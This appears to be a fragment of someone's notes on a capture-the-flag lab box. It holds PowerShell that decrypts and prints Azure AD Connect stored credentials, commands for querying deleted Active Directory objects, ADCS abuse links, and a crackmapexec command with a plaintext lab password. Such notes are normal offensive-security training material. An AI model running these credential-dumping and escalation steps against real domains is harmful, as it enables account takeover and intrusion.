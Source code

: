 \$km.LoadKeySet(\$entropy, \$instance_id, \$key_id)

\$key = \$null

\$km.GetActiveCredentialKey(\[ref\]\$key)

\$key2 = \$null

\$km.GetKey(1, \[ref\]\$key2)

\$decrypted = \$null

\$key2.DecryptBase64ToString(\$crypted, \[ref\]\$decrypted)

\$domain = select-xml -Content \$config -XPath
\"//parameter\[@name=\'forest-login-domain\'\]\" \| select \@{Name =
\'Domain\'; Expression = {\$\_.node.InnerXML}}

\$username = select-xml -Content \$config -XPath
\"//parameter\[@name=\'forest-login-user\'\]\" \| select \@{Name =
\'Username\'; Expression = {\$\_.node.InnerXML}}

\$password = select-xml -Content \$decrypted -XPath \"//attribute\" \|
select \@{Name = \'Password\'; Expression = {\$\_.node.InnerXML}}

Write-Host (\"Domain: \" + \$domain.Domain)

Write-Host (\"Username: \" + \$username.Username)

Write-Host (\"Password: \" + \$password.Password)

## Grabbing root : 

Get-Childitem -Path C:\\Users -Include local.txt -Recurse

Dir /s /b local.xt

## AD Recycle Bin group

Get-ADObject -ldapFilter:\"(msDS-LastKnownRDN=\*)\"
-IncludeDeletedObjects

Get-ADObject -filter { SAMAccountName -eq \"TempAdmin\" }
-includeDeletedObjects -property \*

## ADCS Exploitation : 

abusing ADCS

[[https://0xdf.gitlab.io/2023/06/17/htb-escape.html]{.underline}](https://0xdf.gitlab.io/2023/06/17/htb-escape.html)

[[https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation]{.underline}](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)

crackmapexec ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M
adcs
